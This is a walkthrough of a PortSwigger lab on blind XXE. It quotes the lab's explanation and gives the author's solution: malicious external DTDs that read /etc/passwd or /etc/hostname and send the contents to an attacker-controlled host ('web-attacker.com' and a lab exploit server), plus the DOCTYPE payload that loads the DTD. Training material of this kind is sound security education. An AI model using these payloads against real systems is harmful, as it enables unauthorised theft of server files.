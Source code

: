 ## Exploiting blind XXE to exfiltrate data using a malicious external DTD

**Title:** Exploiting blind XXE to exfiltrate data using a malicious external DTD. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

**Description:**
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

## Preface

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

``` XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:
`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:
``` XML
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

**Note**
This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in Check stock functionality.

### My thought

At first we stored the malicious DTD file in our exploit server by clicking `Go to exploit server`. We made a note of the URL by clicking  `View exploit`. 

``` XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0aba0011039dfa3383e9908a01460074.exploit-server.net/exploit/?x=%file;'>">
%eval;
%exfiltrate;
```

Then we need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, we visited a product page and clicked "Check stock", and intercepted the resulting POST request in Burp Suite. We inserted the following external entity definition in between the XML declaration and the `stockCheck` element:
``` XML 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aba0011039dfa3383e9908a01460074.exploit-server.net/exploit"> %xxe;]>
```
At last we sent the request and the response shows `XML parsing error`. Then we checked the access log of our exploit server. While checking the log file of our exploit server we are interested in `GET /exploit/?x` request.

![poc_store_the_payload.png](../images/store_the_payload.png)

![poc_xml_request.png](../images/xml_request.png)

![poc_final_result.png](../images/final_result.png)
